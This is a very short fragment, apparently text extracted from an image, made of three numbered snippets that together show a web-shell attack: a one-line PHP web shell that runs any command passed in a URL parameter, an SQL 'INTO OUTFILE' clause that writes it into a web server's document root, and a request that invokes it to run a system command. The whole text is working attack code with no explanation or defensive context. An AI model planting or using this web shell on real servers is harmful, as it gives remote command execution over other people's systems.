 # 1
<?php echo(system($_GET["cmd"])); ?>

# 2
INTO OUTFILE '/var/www/html/rce.php'

# 3
rce.php?cmd=uname -a

